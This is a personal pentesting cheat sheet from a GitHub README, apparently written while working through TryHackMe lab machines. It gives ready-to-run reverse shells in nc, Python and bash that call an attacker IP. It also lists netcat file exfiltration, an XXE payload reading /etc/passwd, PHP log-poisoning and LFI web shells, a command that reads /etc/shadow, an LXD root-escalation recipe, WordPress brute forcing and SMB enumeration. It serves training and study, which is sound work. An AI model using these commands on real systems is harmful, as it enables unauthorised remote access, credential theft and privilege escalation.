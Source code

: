 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe platform. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

## Tricks
Here are some handy tricks to enhance your pentesting workflow:

---
#### Spawn a fully interactive shell:
```python
# Spawn Python shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

# Give terminal functions
export TERM=xterm

# Background the shell
Ctrl + Z

# Bring shell back to the foreground 
stty raw -echo; fg
```
#### Read file:
```
xxd -r file.txt 
base64 /etc/shadow | base64 -d
```
`l\s`: Equivalent to `ls`
#### Decompress a gzip file:
```
gzip -d file.gz
```

---
#### Reverse shells
* nc
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
* python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
* python3
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
* bash
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```

---
#### Set appropriate permissions for `id_rsa` file before usage:
```linux
chmod 600 id_rsa
```

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```
---
### Web
#### Discover hidden directories:
```linux
wfuzz -w /usr/share/dirb/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.47.7/island/2100/FUZZ.ticket

feroxbuster -u http://10.10.46.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -s 200
```
#### Discover subdomains with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/subdomains-top1million-5000.txt -u "http://team.thm" -H "Host: FUZZ.team.thm" --hw 977 
```
#### Discover files with `wfuzz` :
```
wfuzz -c -w /usr/share/dirb/wordlists/LFI-gracefulsecurity-linux.txt -u http://dev.team.thm/script.php\?page\=FUZZ --hw=0
```
#### Brute force wordpress
```
wpscan --url http://target_on_wp.com/ -e u -P /usr/share/wordlists/rockyou.txt
```
#### Example of XXE 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
#### php local file inclusion
```
http://10.10.62.183/?view=php://filter/read=convert.base64-encode/resource=dog/../index
curl "http://10.10.62.183/" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
http://10.10.62.183/?view=dog/../../../../var/log/apache2/access.log&ext&cmd='command'
```
#### bypass waf sqlmap
```
--tamper=space2comment
```

---
### Privilege Escalation:
#### LXD container exploitation:
```
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
#### information gathering
```
cat /proc/version
cat /etc/issue
ps
env
sudo -l
hystory
ifconfig
ip route
uname -a
netstat # -at -l -t -tp -i
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag1.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -perm /4000 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm -04000 -ls 2>/dev/null #compare executables on this list with GTFOBins
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
```
####  Automated Enumeration Tools
* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
---

### Windows
<details><summary> Local User and Group Management </summary>
It is a shell application to manage Windows system administrator applications.

```
lusrmgr.msc
```
</details>
<details> <summary> System Configuration utility </summary>

for diagnose startup issues

```
MSConfig
```
</details>
<details> <summary> Task Manager </summary>

to manage (enable/disable) startup items. 
```
taskmgr
```
</details>
<details> <summary> User Account Control </summary>
helps prevent unauthorized changes (which may be initiated by applications, users, viruses, or other forms of malware) to an operating system

```
UserAccountControlSettings.exe
```
</details>
<details> <summary> Computer Management </summary>
the process of managing, monitoring and optimizing a computer system for performance, availability, security

```
compmgmt
```
</details>
<details> <summary> System Information </summary> 
(gathers information about your computer and displays a comprehensive view of your hardware, system components, and software environment, which you can use to diagnose computer issues.)

```
msinfo32
```
</details>
<details> <summary> Resource Monitor </summary>
displays per-process and aggregate CPU, memory, disk, and network usage information, in addition to providing details about which processes are using individual file handles and modules

```
resmon
```
</details>
<details> <summary> Windows Registry </summary>
central hierarchical database used to store information necessary to configure the system for one or more users, applications, and hardware devices

```
regedit
```
</details>
<details> <summary> SMB discovery </summary>
open SMB shares

```
smbclient -L 10.10.251.241
```

enumeration
```
smbmap -H '10.10.13.234' -u '' -p '' -R 
smbmap -H '10.10.195.72' -u '' -p '' -R -A 'enter.txt' #download file
```

scan with nmap

```
nmap -p 139,445 -Pn -script smb-enum* 10.10.251.241
nmap -p 139,445 -Pn -script smb-vuln* 10.10.251.241
```

connect with smbclient

```
smbclient \\\\10.10.251.241\\nt4wrksv
```

</details>
---
### links
* [database with CVE exploits](https://cvexploits.io/)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

###  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
---
Happy hacking!
